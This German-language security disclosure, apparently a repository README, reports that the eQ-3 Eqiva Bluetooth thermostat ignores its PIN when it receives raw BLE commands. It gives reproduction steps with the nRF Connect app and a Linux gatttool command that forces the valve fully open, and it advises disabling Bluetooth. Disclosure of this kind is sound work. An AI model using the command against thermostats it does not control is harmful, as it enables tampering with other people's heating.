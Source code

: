 # Sicherheitslücke in Thermostat eQ-3 Eqiva BLE

Bei dem [eQ-3 Eqiva](http://www.eq-3.de/produkte/eqiva/bluetooth-smart-heizkoerperthermostat.html) handelt es sich um einen smarten Heizungsthermostat mit einer integrierten Bluetooth LE Schnittstelle. Der Hersteller empfiehlt folgende App zum Steuern des Thermostates per Smartphone: [Calor BT](https://play.google.com/store/apps/details?id=de.eq3.ble.android&hl=de).

Verbindet man sich per App mit dem Heizungsthermostat wird ein vierstelliger PIN Code abgefragt, der am Thermostat abgelesen werden muss. Ein Sicherheitsfeature, damit nur jemand den Thermostat steuern kann, der auch physischen Zugang zu ihm hat, z.B. in der eigenen Wohnung.

Interessanterweise spielt dieser PIN Code jedoch keine Rolle, wenn man direkt BLE Befehle mit entsprechenden Werkzeugen - ein Smartphone ist ausreichend - an den Thermostaten sendet (siehe unten). **Dies bedeutet, dass jeder Thermostat in Reichweite (ca. 40m bei Bluetooth LE [1]) mit einfachsten Mitteln fern- und damit fremdgesteuert werden kann.**

Angriffsmotive reichen von dem einfachen Verstellen der Einstellungen bis hin zu Erpressungsszenarien wie dem Abstellen der Heizung bis ein entsprechender Geldbetrag gezahlt wurde.

**Im Moment kann nur dazu geraten werden die Bluetoothfunktion im Thermostat zu deaktivieren.**

IMHO: _Wie dieses Gerät mit dieser gravierenden Sicherheitslücke Testsieger bei Stiftung Warentest werden konnte ist mir ein Rätsel._

## Android

### 1\. nRF Connect installieren

<https://play.google.com/store/apps/details?id=no.nordicsemi.android.mcp&hl=de>

### 2\. Mit Thermostat verbinden

![01-nrf-connect](/img/01-nrf-connect.png)

### 3\. BLE Charactristic auswählen

![02-nrf-connect](/img/02-nrf-connect.png)

### 4\. Boostmodus aktivieren (Ventil wird voll geöffnet)

![03-nrf-connect](/img/03-nrf-connect.png)

## Linux (getestet mit Raspberry Pi 3 und Raspbian)

### 1\. Nach BLE Geräten suchen

`hcitool lescan`

![HCI Tool Scan Example](/img/hcitool-scan.png)

Gerät mit Name "CC-RT-BLE" ist der Thermostat.

### 2\. Boostmodus aktivieren (Ventil wird voll geöffnet)

`gatttool -b 00:1A:22:09:DA:10 --char-write-req --handle=0x0411 --value=4501`

_Entsprechend die MAC-Adresse austauschen._

## Weitere Informationen unter:

- [eq-3 Eqiva API Dokumentation von Heckie75 bei Github](https://github.com/Heckie75/eQ-3-radiator-thermostat/blob/master/eq-3-radiator-thermostat-api.md)

- [FHEM Forum](https://forum.fhem.de/index.php/topic,39308.0.html)

## Referenzen:

[1] - <https://de.wikipedia.org/wiki/Bluetooth_Low_Energy>
